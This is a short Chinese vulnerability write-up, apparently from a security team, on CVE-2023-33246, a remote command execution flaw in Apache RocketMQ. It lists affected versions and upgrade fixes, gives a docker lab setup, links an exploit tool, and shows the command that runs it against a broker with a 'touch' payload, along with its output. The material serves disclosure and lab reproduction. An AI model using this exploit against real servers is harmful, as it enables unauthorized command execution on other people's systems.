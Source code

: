 # CVE-2023-33246

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache RocketMQ 远程命令执行漏洞




## 0x01 漏洞描述

对于RocketMQ 5.1.0及以下版本，在某些情况下，存在远程命令执行的风险。RocketMQ的几个组件，包括NameServer、Broker和Controller，在网络上泄露，并且缺乏权限验证，攻击者可以通过使用更新配置功能作为RocketMQ运行的系统用户执行命令来利用此漏洞。此外，攻击者还可以通过伪造RocketMQ协议内容来达到同样的效果。为了防止这些攻击，建议使用RocketMQ 5.x的用户升级到5.1.1或更高版本，使用Rocket MQ 4.x的用户升级到4.9.6或更高版本。

## 0x02 影响范围

```javascript
5.x < 5.1.1
4.x < 4.9.6
```

## 0x03 环境搭建

```javascript
docker 启动环境搭建成功
docker-compose up -d
```

## 0x04 漏洞利用

工具下载地址：<https://github.com/Le1a/CVE-2023-33246>

```
java -jar CVE-2023-33246.jar -ip "192.168.10.123:10911" -cmd "touch /tmp/success" 
```



```javascript
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
RocketMQLog:WARN No appenders could be found for logger (io.netty.util.internal.InternalThreadLocalMap).
RocketMQLog:WARN Please initialize the logger system properly.
初始rocketmqHome为: /rocketmq-all-5.1.0-bin-release
攻击已结束!请稍后查看结果!
10:45:19.023 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[1.1.1.1:9876] result: true
10:45:19.027 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[1.1.1.1:9876] result: true
配置已经还原为: /rocketmq-all-5.1.0-bin-release!
10:45:19.032 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[192.168.10.123:10911] result: true
```

 ![](image/00e2ec4c-a476-4d02-bb42-1a2fd2fd7f26.png)
